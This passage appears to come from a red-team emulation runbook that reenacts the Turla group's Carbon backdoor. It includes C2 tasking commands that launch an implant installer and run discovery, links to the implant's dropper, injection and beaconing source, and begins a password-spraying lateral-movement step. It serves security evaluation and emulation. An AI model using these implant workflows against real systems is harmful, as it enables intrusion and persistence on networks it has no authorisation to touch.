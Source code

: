 * Once the download has completed successfully, wait 1 minute and then task the EPIC implant to execute the CARBON-DLL installer:

```bash
./evalsC2client.py --set-task 51515228-8a7b-4226-e6e3f4 'exe | C:\Windows\System32\WinResSvc.exe'
```

* CARBON-DLL should inject into the Microsoft Edge process and beacon back to the C2 server. Check that there is a new Carbon implant session registered  with the C2 server
  * 📷 - upload a screenshot of the new implant session.

* Wait 1 minute and then task the Carbon implant to execute some discovery commands:

```bash
./evalsC2client.py --set-task 9b5ef515 '{"id": 0, "cmd": "whoami"}'
```

### :moyai: Source Code

* [CARBON-DLL installer](../../Resources/Carbon/CarbonInstaller/README.md)
  * [Drop components](../../Resources/Carbon/CarbonInstaller/Dropper/src/file_handler.cpp#L178)
  * [Create Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L170)
    * Service registry edits: [1](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L230), [2](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L284)
  * [Start Loader Service](../../Resources/Carbon/CarbonInstaller/Dropper/src/service_handler.cpp#L354)
  * [Loader Service](../../Resources/Carbon/CarbonInstaller/Loader/src/service.cpp)
* [CARBON-DLL Orchestrator](../../Resources/Carbon/Orchestrator/README.md)
  * [Comms Lib DLL Injection](../../Resources/Carbon/Orchestrator/src/injection.cpp#L454)
  * [Task Execution](../../Resources/Carbon/Orchestrator/src/tasking.cpp#L388)
* [CARBON-DLL Comms Lib](../../Resources/Carbon/CommLib/README.md)
  * [Beacon and task retrieval over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L313)
  * [Upload task output over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L342)
* EPIC
  * File download [DownloadFile](../../Resources/EPIC/payload/src/epic.cpp#L441-L466)

### :microscope: Cited Intelligence

* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://www.gdata.pt/blog/2015/01/23926-analysis-of-project-cobra>

<br>

## Step 5 - Lateral Movement to Domain Controller

:microphone: `Voice Track:`

Step 5 emulates Turla laterally moving to the domain controller by conducting
password spraying to retrieve a domain admin's credentials to the domain
controller and using a scheduled task to gain execution on the domain
controller.

